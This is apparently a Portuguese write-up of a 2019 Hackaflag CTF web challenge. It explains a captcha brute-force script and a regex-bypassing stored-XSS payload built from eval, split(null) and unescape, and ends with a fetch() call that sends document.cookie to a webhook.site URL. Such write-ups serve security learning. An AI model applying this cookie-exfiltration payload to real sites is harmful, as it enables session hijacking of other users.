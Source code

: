 # Reminder

- Desafio da etapa de Goiânia do Hackaflag 2019
- Data do desafio: 2019-06-01
- Categoria: web
- URL original: `http://68.183.31.62:3232/`

Ao acessar a URL do desafio, encontramos uma página com um campo `textarea` e um botão que carrega a mesma página, inserindo o conteúdo do campo anterior no parâmetro `data` da URL. Também temos um link para a página `/contact`.

## Página inicial

No código-fonte da página inicial, temos os seguintes trechos JavaScript:

```
<script type="text/javascript">
	window.onload=function(){
		if(!window.localStorage.getItem('data')){
			var t = location.search;
			if(/<([a-z])/i.test(unescape(JSON.parse('"'+decodeURIComponent(location.search.split("=")[1])+'"')))){
				var text = 'undefined';
			}else{
				window.localStorage.setItem('data',decodeURIComponent(location.search.split('=')[1]));
			}
		}
	}
</script>
<script id="message"></script>
<a href="contact">contact</a>
<script>
	function inMessage(message){
		regex = /^[a-z.()]+$/;

		if(regex.test(message)){
			var ms = document.getElementById('message');
    		console.log(ms);
			ms.innerHTML=unescape(message);
		}
	}

	function x(){
		var t;
		return t = {},
		window.location.search.replace("?","").split("&").forEach(function(e){
			var n;
			return n = e.split("="),
			t[n[0]] = n[1];
		}), t.message ? inMessage(t.message) : void 0
	}

	onload=function(){ x(); }
</script>
```

O primeiro trecho cria uma função que manipula o `localStorage` e atribui essa função ao método `window.onload`, que é executado quando a página termina de carregar. No entanto, o final do último trecho também sobrescreve o método `onload` (omitindo o objeto `window`), por isso a primeira função criada nunca é executada. Podemos ignorar este trecho do código.

A função `x` será executada ao carregar a página. Resumidamente, se houver um parâmetro na URL chamado `message`, a função `inMessage` será executada com `message` como argumento.

A função `inMessage` realiza um teste de expressão regular para a variável `message` e, caso a variável contenha apenas letras minúsculas e os caracteres `(`, `)` e `.`, o conteúdo será inserido na tag com id `message` (que convenientemente é uma tag `script`). Se carregarmos a página com o parâmetro `?message=alert()`, verificamos que o código é executado. No entanto, se inserirmos `?message=alert(1)`, o código não é executado porque o caractere `1` não passa no teste de expressão regular.

## Página `contact`

A página `/contact` apresenta um formulário com dois campos: um captcha e uma URL. Além do formulário, há uma string hexadecimal aleatória de 4 caracteres. O código-fonte dá a dica para resolver o captcha: `<!-- substr(md5(string),0,4) == 62d7 -->`, isto é, os 4 primeiros caracteres do hash MD5 do captcha devem ser iguais à string apresentada na página.

Por se tratar de apenas 4 caracteres hexadecimais, há apenas 16<sup>4</sup> = 65536 possibilidades, então é fácil encontrar uma colisão parcial. Este script em Python itera de 1 a 1000000 até achar um resultado compatível.

```
import sys
import hashlib

if len(sys.argv) < 2:
	print('Missing argument')

for i in range(1, 1000000):
	m = hashlib.md5()
	m.update(str(i).encode('utf-8'))
	h = m.hexdigest()[:4]
	if h == sys.argv[1][:4]:
		print(str(i) + ' - ' + h)
		break
```

Ao executar `python hash.py 62d7` obtemos o valor `11528`, que deve ser inserido no campo de captcha.

Com o captcha válido, a requisição é enviada com sucesso. Ao enviar alguma URL, obtemos a mensagem "O admin ira ver sua mensagem em breve bla bla bla...". Esta mensagem, juntamente com o código JavaScript da página inicial, sugere que é possível realizar um ataque de stored XSS para obter os cookies da sessão do administrador.

## Payload

Agora, o desafio é criar um código JavaScript que obtenha os cookies da sessão e que passe no teste da expressão regular. Não podemos fazer isso diretamente porque a expressão regular `/^[a-z.()]+$/` é muito restritiva, portanto precisamos contornar este teste. Uma função útil é a `eval`, que recebe uma string e a interpreta como JavaScript; se o parâmetro `message` for igual a `eval(location.search)`, o código executado será `?message=eval(location.search)`, que não é JavaScript válido, mas nos dá um ponto de partida. Podemos adicionar um segundo parâmetro `?message=eval(location.search)&bypass=alert("Hello!")` e tentar executá-lo mudando apenas o argumento de `eval` seguindo as limitações da expressão regular.

Podemos usar o método `split` para dividir a string, mas não podemos colocar uma string como argumento porque o caractere `"` não passaria no teste de expressão regular. Entretanto, o método `split` converte outros tipos para string, e nós podemos fazer algumas manipulações para obter apenas a parte da string que nos interessa.

- o método `split(x)` divide uma string em um array de strings separados pela variável `x` convertida para string;
- se nenhum argumento for passado, `split` retorna um array contendo a string original;
- o método `split(null)` converterá a constante `null` para a string `"null"` e retornará um array de strings separadas pela string `"null"`;
- `?message=eval(location.search.split(null))&bypass=nullalert("Hello")` retornará o array `["?message=eval(location.search.split(null))&bypass=", "alert(%22Hello%22)"]`;
- para mudar as aspas de `%22` para `"`, devemos utilizar a função `unescape`;
- para obter o segundo elemento do array, basta usarmos o método `pop`;
- `?message=eval(unescape(location.search.split(null).pop()))&bypass=nullalert("Hello")` retornará a string `"alert("Hello")"`, que é exatamente o que queremos.

O separador não deve aparecer no código a ser injetado. Por exemplo, `?message=eval(unescape(location.search.split(null).pop()))&bypass=nullalert("this is null")` retornará a string `")` porque há uma segunda ocorrência da string `null`.

É possível utilizar outros separadores:

- a propriedade estática `length` retorna 1 (não sei por quê, só sei que [é assim](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/length));
- `window.name.length` retorna 0;
- `location.search.length` retorna o tamanho de `location.search`, que pode ser facilmente incrementado;
- `window.name.includes()` retorna `false`;
- `window.name.includes(window.name)` retorna `true`.

Agora podemos executar (quase) qualquer código JavaScript, sem restrição de caracteres.

Em um ataque real, como não saberíamos quando um administrador executaria o código, seria necessário ter um servidor que armazenasse as requisições enviadas. Para testes e CTFs, podemos utilizar um serviço como http://webhook.site. Este site gera uma URL com um ID aleatório no formato `http://webhook.site/{id}` e as requisições feitas para esta URL podem ser monitoradas pelo link `http://webhook.site/#!/{id}` (atenção para o acréscimo de `#!` na URL).

O comando `fetch("http://webhook.site/{id}?cookie=" + document.cookie)` insere os cookies como parâmetros de URL, que poderão ser observados pelo link anterior.

O payload final será `http://68.183.31.62:3232/?message=eval(unescape(location.search.split(null).pop()))&bypass=nullfetch("http://webhook.site/{id}?data=" + document.cookie)` e, ao enviá-lo e verificar as chamadas realizadas, encontramos o parâmetro `data=token%3DHACKAFLAG%7Bgr34t_p4yl04d_n0%3F%7D`. Usando a função `unescape`, obtemos a flag `HACKAFLAG{gr34t_p4yl04d_n0?}`.

